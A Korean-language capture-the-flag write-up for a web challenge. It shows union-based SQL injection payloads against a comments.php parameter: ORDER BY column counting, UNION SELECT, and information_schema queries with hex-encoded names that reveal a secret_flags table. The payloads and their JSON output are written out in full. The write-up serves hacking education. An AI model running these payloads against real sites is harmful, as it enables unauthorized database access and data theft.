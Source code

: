 
## [SNS해킹 2] 문제에 들어가면 아래와 같은 웹페이지를 확인할 수 있습니다.
<img width="1170" alt="Image" src="https://github.com/user-attachments/assets/db9cdf26-e386-4da3-b7b2-6a567ab0dfc3" />

### 조사 대상 
`/spec3/post.php?id=1`, `/spec3/comments.php?post_id=1`

### sqli 성공 여부  
`comments.php` 에서 아래와 같은 오류 메시지가 출력 
```json 
 {"error":"Query failed: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'ORDER BY created_at DESC' at line 1"}
 ```
>  해당 내용에서 서버는 sql 쿼리 일부를 노출 시킴

### 컬럼 갯수 확인 / DB명 확인 
`1 ORDER BY 5-- `, `1 UNION SELECT 1,2,3,4,5-- `
```json 
 {
    "comment_id": "spec3",
    "post_id": "2",
    "author": "3",
    "content": "4",
    "created_at": "5"
  }
```
> DB명 : spec3

### 테이블명 확인 
`1 UNION SELECT table_name, 2,3,4,5 FROM information_schema.tables WHERE table_schema=0x7370656333 `
수상한 테이블 발견

```json 
[
  {
    "comment_id": "comments",
  },
  {
    "comment_id": "posts",
  },
  {
    "comment_id": "secret_flags",
  }
]
```

### 컬럼명 확인 
`/comments.php?post_id=-1 UNION SELECT  column_name, 2,3,4,5 FROM information_schema.columns WHERE table_name=0x7365637265745f666c616773--+ `
flag_value 발견
